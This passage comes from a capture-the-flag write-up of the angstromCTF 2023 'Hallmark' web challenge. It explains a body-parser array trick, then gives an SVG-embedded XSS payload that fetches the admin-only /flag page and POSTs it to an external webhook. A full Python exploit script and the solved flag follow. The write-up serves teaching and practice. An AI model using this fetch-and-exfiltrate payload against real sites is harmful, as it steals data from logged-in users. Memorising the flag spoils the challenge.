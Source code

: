 Running the above application and the following commands, we can see how `body-parser` parses the request body to produce the desire JavaScript object of an array.

```bash
node app.js 
Server listening on port 3000.
> curl -X POST http://localhost:3000/test --data "test=bruh"
{ test: 'bruh' }
> curl -X POST http://localhost:3000/test --data "test[]=bruh"
{ test: [ 'bruh' ] }
```

## Exploitation

Now that we know how to pass an array into the `type` value, we can now exploit the vulnerability. One will notice that the `/flag` endpoint can only be accessed by the admin bot and is checked by the admin bot's cookie. Attempting to exfiltrate the admin bot's cookie would not lead to much success as the cookie is marked as `HttpOnly` and cannot be accessed by JavaScript. This is where a common XSS technique comes into play to bypass this restriction. We can make a request first on the `/flag` endpoint to get the flag and then send that as the body of another request to a server we control. This allows the `HttpOnly` restriction to be bypassed as the request to the `/flag` endpoint as the value of the cookie is not being accessed by any of the client-side scripts. This can be done with the following JavaScript.

```javascript
fetch("/flag").then(res => res.text()).then(text => fetch("https://eoszwikoix9fv9q.m.pipedream.net", {
    method: "POST",
    body: text
}))
```

Once we set up our own webhook to receive the flag, we are ready to perform the full exploit.

## Solution
The full exploit requires first creating a card and getting the produced UUID to then update the contents of the card to contain the SVG with the JavaScript payload. I wrote the following Python script to perform the exploit and prints out the URL with the exploit set up.

```python
import requests

url = "https://hallmark.web.actf.co/card"

resp = requests.post(url, data={"svg": "cake", "content": "a"})

uuid = resp.url.split("=")[-1]

payload = """<script>fetch("/flag").then(res => res.text()).then(text => fetch("https://eoszwikoix9fv9q.m.pipedream.net", {method: "POST", body: text}))</script>"""
svg = """<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">""" + payload + """</svg>"""

r = requests.put(url, data={"id": uuid, "type[]": "image/svg+xml", "svg": "snowman", "content": svg})

print("Solve:", resp.url)
```

Once I submitted the output URL to the admin bot, I visited my webhook site to get the flag!


<img src="{{ "assets/writeups/angstromctf-2023/hallmark-1.png" | relative_url }}" alt="Hallmark solve!" width="70%"/>

```
actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}
```